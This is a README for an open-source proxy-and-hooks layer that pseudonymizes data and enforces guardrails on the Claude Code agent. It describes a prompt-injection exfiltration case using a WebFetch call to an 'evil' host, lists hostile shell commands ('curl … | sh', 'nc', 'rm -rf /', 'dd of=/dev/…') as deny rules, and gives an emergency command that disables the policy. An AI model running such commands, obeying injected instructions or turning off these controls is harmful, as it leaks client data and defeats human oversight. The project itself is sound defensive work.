

# AI Governance for Claude Code

**Local-first data protection, guardrails and audit for [Claude Code](https://docs.anthropic.com/en/docs/claude-code).**
Sensitive data is pseudonymized before it leaves your machine, restored transparently in the model's answers,
and every agent action is checked against a single, versioned policy. No external service, no cloud dependency.


[](LICENSE)

---

## Table of contents

- [Why](#why)
- [Key features](#key-features)
- [Architecture](#architecture)
- [How pseudonymization works](#how-pseudonymization-works)
- [What is detected](#what-is-detected)
- [Guardrails](#guardrails)
- [Admin console](#admin-console)
- [Model providers](#model-providers)
- [Confidentiality levels and the C3 lock](#confidentiality-levels-and-the-c3-lock)
- [Getting started](#getting-started)
- [Operations](#operations)
- [Security model and limitations](#security-model-and-limitations)
- [Roadmap](#roadmap)
- [Project layout](#project-layout)
- [Contributing](#contributing)
- [License](#license)

---

## Why

Claude Code reads your files, runs commands and sends their output to a remote model. In a consulting or
enterprise context, that output routinely contains client names, prices, personal data and credentials.

This project puts a **governance layer** between Claude Code and the model provider:

- **Nothing sensitive leaves in clear text.** Prompts, file contents and tool outputs are pseudonymized
  on the fly; the model only ever sees stable tokens.
- **Your files stay correct.** Tokens are restored in the model's answers, so Claude Code writes real values
  to disk, not placeholders.
- **Risky actions are stopped before they happen.** Deterministic hooks deny or require confirmation for
  dangerous commands, secret access and exfiltration attempts.
- **Everything is auditable**, without the audit trail itself becoming a data leak.

## Key features

| | |
|---|---|
| 🔒 **Reversible pseudonymization** | Deterministic HMAC tokens, restored in streamed responses (SSE), prompt caching preserved |
| 🧠 **Hybrid detection** | Regex with validators (IBAN mod 97, Luhn, NIR key) + Presidio NER + client dictionary |
| 🛡️ **Guardrails** | Pre-prompt and pre-tool hooks: secrets, destructive SQL, dangerous shell, web exfiltration |
| 🔐 **Confidentiality levels** | C1 / C2 / C3 classification; C3 content can never reach the default cloud provider |
| 🔀 **Pluggable model providers** | Claude by default, or any "trusted provider" (self-hosted, GPT, Gemini, Mistral, Copilot, Ollama… via LiteLLM) |
| 🖥️ **Admin console** | React UI to manage clients, projects, files, settings, and simulate what the model receives |
| 📊 **Observability** | OpenTelemetry → Prometheus / Loki → Grafana: cost, tokens, detections, denials |
| 🚫 **Fail-closed by design** | If detection or the policy is unavailable, requests are refused rather than sent unprotected |

---

## Architecture



### Layers

| Layer | Component | Responsibility | Can the user bypass it? |
|---|---|---|---|
| **Policy** | `managed-settings.json` | Highest-precedence Claude Code settings: forces the proxy and telemetry, denies sensitive paths, disables `--dangerously-skip-permissions`, allows managed hooks only (`allowManagedHooksOnly`) | No, short of `sudo` (see [limitations](#security-model-and-limitations)) |
| **Guardrails** | `guard_prompt` / `guard_tool` hooks | Deterministic decision before every prompt and action: `deny`, `ask`, or pass | No (managed hooks) |
| **Pseudonymization** | Proxy + Presidio + Redis | Everything sent to the model (prompts, file contents, command output) is pseudonymized, then restored on the way back | No: `ANTHROPIC_BASE_URL` is enforced by policy |
| **Observability** | OTel → Prometheus / Loki → Grafana | Cost, tokens, detected entities, denials, confirmations, audit log | — |

---

## How pseudonymization works

Claude Code is not a chatbot: it **writes to your files**. If the model receives `PII_EMAIL_3f9a2b1c` and
emits an `Edit` containing that token, the real value must be restored before the edit is applied;
otherwise your codebase fills up with placeholders.

- **Deterministic tokens** — `PII_<TYPE>_<HMAC-SHA256(secret, type|value)[:8]>`. The same value always yields
  the same token, so the conversation stays consistent and **prompt caching keeps working**.
- **Local mapping only** — the token → value table never leaves the machine. It lives in Redis (in-memory,
  no persistence, TTL) and in a proxy-side cache.
- **Streaming-safe** — a token may be split across SSE chunks; the proxy holds back the ambiguous tail until
  the next chunk. Inside `input_json_delta` (tool arguments), restored values are JSON-escaped.
- **Signed blocks untouched** — `thinking` blocks are never modified (their signature would break); they only
  contain tokens anyway.
- **Anti-exfiltration** — a prompt injection could make the model call
  `WebFetch("https://evil/?d=PII_SECRET_…")` hoping the proxy fills in the real value. Therefore the proxy
  restores **nothing** in `WebFetch` / `WebSearch`, and restores **secrets** only in file-writing tools
  (`Write`, `Edit`, …). In `Bash` or MCP tools, `PII_SECRET_…` tokens are left as-is.

## What is detected

Configured in [`policy/policy.json`](policy/policy.json).

| Category | Types | Method |
|---|---|---|
| Secrets | Anthropic, OpenAI, AWS, GitHub, GCP, Slack keys, JWTs, private keys, passwords in URLs and assignments | Regex |
| Personal data (French formats) | Email, French phone numbers, IBAN (mod 97 check), NIR / social security number (check key, Corsica included), SIRET and payment cards (Luhn) | Regex + validator |
| Named entities | People, locations | Presidio + spaCy `fr_core_news_lg` |
| Clients, projects, internal terms | Dictionary (`terms.json`, managed from the console) | Case- and whitespace-insensitive term list |
| Amounts | `125 000 € HT`, `3 M€`, `TJM 650`, `Prix unitaire : 450,00` | Regex (currency or price keywords) |

NER is applied to **typed prompts** and **documents** (`pdftotext` / `pandoc` output, `.md`, `.txt`, `.csv` …),
but not to source code, where class names produce false positives. To harden further, add `"tool_result"`
to `pii.presidio.scopes`.

**PDFs and images** cannot be pseudonymized as binary content. They are stripped from requests
(`pii.request.blocked_media`), and reading a PDF directly with `Read` is denied: Claude is redirected to
`pdftotext -layout file.pdf -`, whose output is pseudonymized.

> The default rules and NER model target French-language content. Other languages are supported by changing
> the spaCy model and adding patterns in `policy.json`.

---

## Guardrails

| Rule | Examples | Decision |
|---|---|---|
| Sensitive files | `.env*` (except `.env.example`), `*.pem`, `~/.ssh`, `~/.aws`, `*.tfstate`, `secrets/` — read, write, search **and through Bash** (`cat .env`) | deny |
| Dangerous commands | `rm -rf /`, `curl … \| sh`, `nc`, `git push --force`, `chmod 777`, `dd of=/dev/…` | deny |
| Destructive SQL | `DROP`, `TRUNCATE`, `GRANT`, `DELETE` / `UPDATE` **without `WHERE`**, in Bash (`psql`, `bq`, `duckdb` …) and MCP tools | deny |
| Tables holding personal data | `customers`, `employees`, `patients` … | ask |
| Impactful actions | `git push`, `terraform apply`, `kubectl apply`, `dbt run --target prod`, `curl`, `sudo` | ask |
| Shell exfiltration | Network command (`curl`, `wget`, `nc`, `mail` …) carrying a secret / personal data | deny / ask |
| Hard-coded secret | `Write` or `Edit` containing an API key | ask |
| Web exfiltration | `WebFetch` to pastebin, webhook.site, ngrok …, or a URL containing personal data | deny |
| Prompt | Secrets, NIR or card numbers pasted into the prompt → **blocked**; other personal data → warning | block / warn |

All rules are regular expressions in `policy.json`, reloaded on every hook call. Command-name rules are
anchored to command position (start, after `;`, `&&`, `|`, `$(`, `sudo` …), so `git commit -m "fix nc"` does
not trigger. Path checks in Bash cover redirections (`<.env`), globs (`cat .en?`, resolved against the disk)
and inline code (`open('.env')`). A determined program can still build a path dynamically: the proxy is the
safety net.

---

## Admin console

Available at **http://localhost:8788** — a React (Vite, TypeScript, Tailwind) single-page app served by a
FastAPI backend in the same container. The interface is available in **English** (default) and **French**; the language switch is in the
sidebar and on the sign-in page, and the choice is remembered by the browser. Sign-in uses `ADMIN_PASSWORD` (HttpOnly session cookie, 12 h).

| Screen | Purpose |
|---|---|
| **Dashboard** | Proxy and NER health, dictionary size, active model provider, filterable log of denials, confirmations and pseudonymizations |
| **Clients** | Declare a client (neutral code such as `C001`, name, variants) — masked immediately. Flags folders without a declared client |
| **Client › Tender** | Create a tender folder, drag-and-drop files as C2 or C3, move files between levels, copy the `cd … && claude` command |
| **Projects** | Register a code repository (mounted read-only), link it to a client, browse its tree and mark files or folders as C3 **in place** (no move, no rename), scan for dictionary terms, secret files, hard-coded credentials and sensitive path names |
| **Simulator** | Paste text and see exactly what the model receives, with tokens highlighted by type |
| **Settings** | Model provider; masked data types; NER scope and threshold; allowlist; ask/deny decisions for sensitive actions; personal-data tables; extra blocked web domains; change history (reduced protection is flagged) and reset to `policy.json` defaults. Secrets, sensitive paths, the C3 lock, forbidden commands and fail-closed are **deliberately not configurable** |

Changes apply **within seconds, without restart**: the proxy watches `~/.config/claude-governance/`
(`terms.json`, `overrides.json`) and hooks re-read it on every call. Claude itself has no access to this folder.

Front-end development: `cd admin/web && npm install && npm run dev` (expects the API on `:8788`).

---

## Model providers

A global switch in the console (**Settings › AI model**) selects where model requests (`/v1/messages`) are routed.

| Provider | Routing | Authentication |
|---|---|---|
| **Claude** (default) | `https://api.anthropic.com` | The user's own subscription; headers relayed unchanged |
| **Trusted provider** | `TRUSTED_URL`, model forced to `TRUSTED_MODEL` | `TRUSTED_API_KEY`; Claude credentials are **never** forwarded |

The trusted provider is the **only** provider allowed to read C3 content. It must expose the
**Anthropic Messages API**. Configuration (environment file):

| Variable | Description |
|---|---|
| `TRUSTED_URL` | Base URL, without `/v1` (e.g. `http://litellm:4000`, `https://llm.example.com`) |
| `TRUSTED_MODEL` | Model enforced on every request |
| `TRUSTED_API_KEY` | Provider API key |
| `TRUSTED_NAME` | Display name in the console and status line (default: *Fournisseur de confiance*) |
| `TRUSTED_AUTH` | `x-api-key` (default) or `bearer` (`Authorization: Bearer …`) |

### Connecting GPT, Gemini, Mistral, Copilot, Ollama… through LiteLLM

For providers that do not speak the Anthropic format, an optional [LiteLLM](https://github.com/BerriAI/litellm)
gateway is included. It translates to OpenAI, Gemini, Mistral, Azure OpenAI, GitHub Copilot, Ollama, vLLM and more.

```bash
cp litellm/config.example.yaml litellm/config.yaml   # keep the model(s) you need

# In your environment file:
#   LITELLM_MASTER_KEY=<long random string>
#   OPENAI_API_KEY=...             # or GEMINI_API_KEY, MISTRAL_API_KEY, ...
#   TRUSTED_URL=http://litellm:4000
#   TRUSTED_MODEL=gpt              # a model_name from litellm/config.yaml
#   TRUSTED_API_KEY=<same value as LITELLM_MASTER_KEY>
#   TRUSTED_NAME=GPT (OpenAI)

docker compose --profile litellm up -d
docker compose up -d --force-recreate proxy admin
```

> [!WARNING]
> C3 content is sent (pseudonymized) to the trusted provider. Only designate a service you genuinely trust
> with that data: a local model (Ollama, vLLM), one hosted by your organization, or a provider covered by
> your contract.

### Behavior

- Pseudonymization and guardrails apply to **both** providers: a session can switch providers without any
  clear-text data reaching Anthropic.
- With the trusted provider, the proxy keeps only standard SSE events (some compatible servers emit
  non-restorable duplicates) and answers `count_tokens` locally with an estimate.
- After switching, start a **new session** (or `/clear`): one model's reasoning blocks are not valid for another.
- Depending on the model, the trusted provider may be less reliable than Claude on code and long tasks, with
  a shorter context window.

---

## Confidentiality levels and the C3 lock

Content is classified by where it is stored:

| Level | Examples | Handling | How to apply |
|---|---|---|---|
| **C3 — never sent to Anthropic** | Pricing, NDA material, strategic technical content | Unreadable with Claude; readable **only with the trusted provider**, and the session is then locked | Store under a `_confidentiel/` folder, name files `*.confidentiel.*`, or declare paths in the **Projects** screen |
| **C2 — pseudonymized** | Tender documents, specifications, technical proposals, résumés | Clients, projects, amounts, people and contact details replaced by tokens | Dictionary + default rules |
| **C1 — open** | Source code, public documentation | Secrets and personal data replaced by tokens | Default rules |

### Three independent locks

1. **Hooks** — any C3 access (Read, Grep, Glob, Bash, MCP; detected via `tool_guard.c3_marker_regex` or declared
   paths) is denied while Claude is active. With the trusted provider it is allowed, and the session is recorded
   in `c3-sessions.json` (closed on `SessionEnd`).
2. **Console** — switching back to Claude is refused while a C3 session is open (manual closing is available if
   Claude Code was killed; sessions idle for 12 h are considered closed).
3. **Proxy** — in Claude mode, rejects any request from a recorded C3 session (even resumed days later, via
   `x-claude-code-session-id`), any request whose history contains a C3 access, and all requests if the registry is
   unreadable (fail-closed).

### Declared C3 paths in code repositories

Renaming a file to mark it C3 would break code references, so the **Projects** screen lets you declare C3
paths in place. The console writes `c3-paths.json`, hot-reloaded by hooks and proxy:

- **Hooks** resolve every path targeted by Read/Edit/Write, Grep, Glob or Bash (including bare words, globs and
  relative paths after `cd`) against declared paths. A **recursive search** (`grep -r`, `rg`, `find`, `tar`,
  `git grep` …) over a **parent** of a C3 path is treated as C3 access. If the tree is too large to verify
  (over 20,000 entries or 0.6 s), it is denied with Claude: target a subfolder instead.
- **Proxy** rejects any request whose history contains an absolute declared C3 path.
- If `c3-paths.json` is unreadable, hooks deny every action (fail-closed) and the proxy keeps its previous configuration.
- *Limitation:* a program that walks the disk on its own (script, test runner, build) is not inspected. Do not
  run tools that read C3 content while Claude is active.

### What still reaches the provider

The substance of C2 documents (requirements, technical approach, structure) is sent, with identifiers replaced
by tokens. Because amounts are masked, the model cannot compute totals or check pricing consistency; disable the
amount patterns for a specific task if needed.

For client data under contract, prefer a Team / Enterprise plan or API key (commercial terms) over consumer
terms, and make sure model training on your conversations is disabled in your account's privacy settings.

---

## Getting started

### Prerequisites

- Linux or WSL2 (Ubuntu 22.04 / 24.04 tested)
- Python ≥ 3.9
- Docker with Compose v2 (Docker Desktop with WSL integration, or `docker-ce`)
- Claude Code
- `sudo` access (hooks and managed settings are installed system-wide, owned by root)

### Installation

```bash
git clone https://github.com/Alexweb97/ai-governance.git
cd ai-governance
cp .env.example .env            # then fill in the secrets (see below)

./install.sh                    # ~5 min on first run (builds Presidio with the French model)
./scripts/smoke-test.sh         # end-to-end verification
```

`install.sh` is ordered on purpose: hooks and the Docker stack are installed and tested first, and
`managed-settings.json` is deployed **last**, because as soon as it exists Claude Code routes through the proxy.

`./install.sh --no-stack` installs guardrails only (hooks + permissions), without Docker, proxy or telemetry.

> **Behind a TLS-inspecting corporate proxy?** `install.sh` copies the CA certificates found in
> `/usr/local/share/ca-certificates/` into `certs/` so that the containers trust them.

### Configuration

Main variables in your environment file (see `.env.example`):

| Variable | Description |
|---|---|
| `PSEUDO_SECRET` | HMAC key for tokens (≥ 32 characters). Changing it invalidates existing tokens |
| `ADMIN_PASSWORD` | Admin console password |
| `GRAFANA_ADMIN_PASSWORD` | Grafana `admin` password |
| `GOV_CONFIG_DIR` | Console-managed configuration (dictionary, settings), e.g. `~/.config/claude-governance` |
| `CLIENTS_DIR` | Root folder for client engagements |
| `PROJECTS_DIR` | Root folder for code repositories (mounted read-only) |
| `TRUSTED_*` | Optional trusted provider, see [Model providers](#model-providers) |

### Verify

In Claude Code:

```
/status   → "Setting sources" must list the managed settings
/hooks    → the managed hooks must be listed
```

| Service | URL |
|---|---|
| Admin console | http://localhost:8788 |
| Grafana | http://localhost:3001 (`admin` / `GRAFANA_ADMIN_PASSWORD`) |
| Proxy health | http://localhost:8787/healthz |

### Running the tests

```bash
python3 -m venv .venv && . .venv/bin/activate
pip install pytest fastapi python-multipart httpx prometheus-client
python -m pytest -q tests
```

200 tests cover the detection engine, SSE streaming, hooks, console API, projects, settings, provider
switching and the C3 lock.

---

## Operations

| Task | How |
|---|---|
| Add a client, tender or files | Admin console |
| Change an advanced rule | Edit `policy/policy.json`, then `./install.sh` (hooks); the proxy reloads it automatically |
| Inspect the raw audit trail | `tail -f /var/log/claude-governance/*.jsonl \| jq` |
| Proxy logs | `docker compose logs -f proxy` |
| Show the trusted provider config | `make trusted` |
| Proxy down | Claude Code returns a connection error — this is the intended **fail-closed** behavior. Run `docker compose up -d` |
| Emergency bypass | `sudo mv /etc/claude-code/managed-settings.json{,.off}` (logged by the `ConfigChange` hook when restored) |
| Uninstall | `./uninstall.sh` (keeps audit logs) or `./uninstall.sh --purge` |

The audit trail **never contains sensitive values in clear text**: only entity types (`EMAIL: 2`), truncated
SHA-256 prompt fingerprints and masked targets (`echo [EMAIL]`).

---

## Security model and limitations

1. **Self-administered workstation.** Anyone with `sudo` can modify `/etc/claude-code`. This project protects against
   mistakes and unintended agent behavior, not against a malicious local administrator. For enterprise-grade
   enforcement, publish the same policy through server-managed settings and run the proxy on a shared server.
2. **Imperfect detection.** Regex and NER have false negatives, especially on free text and in-house formats.
   Add your own patterns (employee IDs, contract numbers …) to `pii.patterns`.
3. **Answer quality.** The model reasons about `PII_PERSON_…` instead of a real name. This is harmless for code but
   can matter when the value itself is relevant (format validation, deduplication). Tokens keep their type,
   which limits the impact.
4. **Pinned images.** Container image versions in `docker-compose.yml` are pinned; review and update them regularly.
5. **Scanned PDFs.** `pdftotext` returns nothing for image-only PDFs. Run OCR locally first
   (`ocrmypdf -l fra --force-ocr scan.pdf scan.ocr.pdf`); OCR output is treated as a document (NER enabled).
6. **Dictionary coverage.** A client missing from the dictionary is not masked unless NER flags it. Keep the
   dictionary up to date, including name variants, acronyms and subsidiaries — NER does not detect organizations.

Found a security issue? Please open a private advisory rather than a public issue.

## Roadmap

- Run the proxy as a shared service for multiple workstations, with managed Redis
- Replace `tool_guard` regex rules with OPA / Rego for versioned, CI-tested policies
- Custom Presidio recognizers for organization-specific identifiers
- Grafana alerting: fail-closed events, spikes in denials, daily cost thresholds

## Project layout

```
ai-governance/
├── claude/managed-settings.json   Claude Code policy → /etc/claude-code/
├── policy/policy.json             PII rules + guardrails (single source of truth)
├── policy/terms.example.json      dictionary format (managed by the console)
├── proxy/app/                     pii.py (engine), stream.py (SSE), main.py (FastAPI proxy)
├── hooks/                         guard_prompt, guard_tool, audit, statusline (stdlib Python)
├── admin/govadmin/                console API (FastAPI)
├── admin/web/                     console UI (React + TypeScript + Tailwind)
├── presidio/                      Presidio image + French spaCy model
├── litellm/                       optional gateway to non-Anthropic providers
├── observability/                 OTel Collector, Prometheus, Loki, Grafana dashboards
├── deploy/nginx/                  optional reverse proxy for the console
├── tests/                         pytest suite
├── scripts/smoke-test.sh          end-to-end verification
├── docker-compose.yml
├── install.sh / uninstall.sh
└── .env.example
```

## Contributing

Issues and pull requests are welcome. Please run the test suite before submitting, and never include real
client data, credentials or personal information in issues, commits or test fixtures.

By submitting a contribution, you agree that it is licensed under the Apache License 2.0.

## License

Copyright © 2026 Alexweb97.

Licensed under the [Apache License, Version 2.0](LICENSE). You may use, modify and distribute this software,
including for commercial purposes, provided you retain the copyright notice and the license. The software is
provided "as is", without warranty of any kind.
